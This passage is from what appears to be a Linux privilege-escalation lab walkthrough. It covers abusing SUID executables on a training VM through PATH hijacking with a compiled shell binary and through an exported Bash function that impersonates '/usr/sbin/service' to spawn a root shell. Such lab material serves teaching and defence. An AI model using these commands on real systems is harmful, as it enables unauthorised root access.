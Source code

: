 Run strings on the file to look for strings of printable characters:

```bash
strings /usr/local/bin/suid-env
```

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

## 14. SUID / SGID Executables - Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

## 15. SUID / SGID Executables - Abusing Shell Features (#2)
